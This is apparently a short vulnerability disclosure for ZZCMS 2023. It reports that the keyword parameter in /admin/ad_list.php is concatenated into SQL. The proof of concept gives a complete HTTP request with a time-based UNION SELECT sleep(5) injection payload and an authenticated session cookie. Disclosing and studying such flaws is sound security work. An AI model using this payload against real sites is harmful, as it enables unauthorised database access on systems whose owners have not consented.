


## Supplier

```
http://www.zzcms.net/
```

## Description

```
ZZCMS 2023 is a rapid site building system, product investment template program source code, can quickly build product investment network. For example, medical investment, health products investment, cosmetics investment, agricultural investment, pregnancy and child investment, alcohol and non-staple food.

keyword filtering in the /admin/ad_list.php component leads to sql injection vulnerabilities
```


## POC


Log in to the background system, grab a permission to replace the data packet





```
GET /admin/ad_list.php?action=pass&&keyword='+union+SELECT+1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,sleep(5)+--+x HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Cookie: http304ok=0; PHPSESSID=pvpehubud7epklbme9m4s69b0q;
Connection: close


```


## Analysis


The keyword parameter is found concatenated directly in the file


